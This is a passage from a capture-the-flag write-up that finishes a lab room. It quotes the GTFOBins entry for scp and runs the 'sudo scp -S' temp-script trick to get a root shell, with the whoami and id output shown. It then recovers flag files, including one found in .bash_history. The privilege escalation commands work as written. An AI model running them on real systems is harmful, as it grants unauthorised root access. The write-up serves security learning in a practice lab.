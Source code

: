 I checked immediatly on [GFTOBins](https://gtfobins.github.io/) and found this for scp

>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
>``` 
>TF=$(mktemp)
>echo 'sh 0<&2 1>&2' > $TF
>chmod +x "$TF"
>sudo scp -S $TF x y:
>```

Let's se if it works and
```
dennis@ip-10-10-251-164:~$ TF=$(mktemp)
dennis@ip-10-10-251-164:~$ echo 'sh 0<&2 1>&2' > $TF
dennis@ip-10-10-251-164:~$ chmod +x "$TF"
dennis@ip-10-10-251-164:~$ sudo /usr/bin/scp -S $TF x y:
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag5.txt
```
I'm root, so I could easily read the flag5.txt

## STEP 7 <sub>(question 7)</sub>

At this point I was only missing flag 3 (question 7) to complete the room. I ran several find commands but to no avail! So I decided to start all over again from where I started: in **_dennis's home_**.
Checking the contents of the _.bash_history_ I found flag 3.
```
root@ip-10-10-251-164:/dennis/home~$ ls -la
total 44
drwxr-xr-x 3 dennis dennis 4096 Sep  7 08:45 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1052 Sep  7 08:47 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Sep  7 08:45 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo
root@ip-10-10-251-164:/dennis/home~$  cat .bash_history
Flag3:<redacted>  <------- LOOK AT ME -------|
sudo -l
sudo scp
scp
sudo find
<redacted>
```

Mission accomplished!





